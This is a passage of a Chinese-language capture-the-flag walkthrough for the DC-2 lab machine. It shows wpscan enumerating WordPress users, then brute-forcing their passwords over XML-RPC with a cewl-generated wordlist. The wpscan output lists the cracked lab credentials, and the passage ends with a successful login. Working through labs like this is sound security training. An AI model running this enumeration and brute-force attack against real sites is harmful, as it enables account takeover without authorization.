 `wpscan --url http://dc-2 --enumerate u`

扫出来三个用户
```
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

将三个用户名写在kali下的user.txt 然后与先前cewl生成的passwd.txt进行爆破
`wpscan --url http://dc-2 -U user.txt -P passwd.txt`
还真爆出来一些...

```
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing                                                                                                                                                                                      
[SUCCESS] - tom / parturient                                                                                                                                                                                        
Trying admin / sometimes Time: 00:00:32 <==============================================================================                                                          > (375 / 640) 58.59%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```

真就登进去了!